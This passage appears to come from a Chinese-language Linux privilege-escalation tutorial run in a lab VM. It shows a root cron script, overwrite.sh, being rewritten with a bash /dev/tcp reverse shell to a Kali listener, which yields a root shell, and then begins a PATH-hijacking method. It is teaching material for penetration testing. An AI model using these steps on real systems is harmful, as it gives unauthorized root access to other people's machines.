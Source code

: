 ```bash
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root overwrite.sh
```

2、修改计划任务里的 overwrite.sh 脚本，改为反弹 shell

```bash
moonteam@moonteam-virtual-machine:~$ locate overwrite.sh

moonteam@moonteam-virtual-machine:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash
echo `date` > /tmp/useless 

moonteam@moonteam-virtual-machine:~$ ls -liah /usr/local/bin/overwrite.sh
818018 -rwxr-xrw- 1 root root 40  5月 30 17:33 /usr/local/bin/overwrite.sh

moonteam@moonteam-virtual-machine:~$ vim /usr/local/bin/overwrite.sh
moonteam@moonteam-virtual-machine:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.0.103/7777 0>&1 
```

3、kali监听，收到 shell 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [192.168.0.103] from (UNKNOWN) [192.168.0.102] 53234
bash: 无法设定终端进程组(90035): 对设备不适当的 ioctl 操作
bash: 此 shell 中无任务控制
root@moonteam-virtual-machine:~# id
id
uid=0(root) gid=0(root) 组=0(root)
```

### PATH环境变量提权

当我们的环境变量里出现如下：

```
/home/moonteam:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

发现 `/home/moonteam` 排在前面，我们就可以重写 `overwrite.sh` 添加到 `/home/moonteam` 里，于是计划任务会优先调用  `/home/moonteam` 里的 `overwrite.sh`

#### 环境配置

root 用户配置，vim 添加 /home/moonteam 到计划任务里的环境变量

```bash
root@moonteam-virtual-machine:~# export PATH=/home/moonteam:$PATH
root@moonteam-virtual-machine:~# echo $PATH
/home/moonteam:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
